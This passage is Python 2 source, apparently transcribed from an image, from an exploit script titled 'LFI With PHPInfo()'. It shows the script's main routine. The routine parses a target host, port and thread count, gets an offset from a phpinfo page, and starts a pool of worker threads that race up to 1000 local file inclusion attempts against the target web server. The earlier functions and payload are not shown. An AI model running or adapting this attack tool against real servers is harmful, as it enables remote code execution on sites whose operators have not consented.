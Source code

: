 ```python
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
```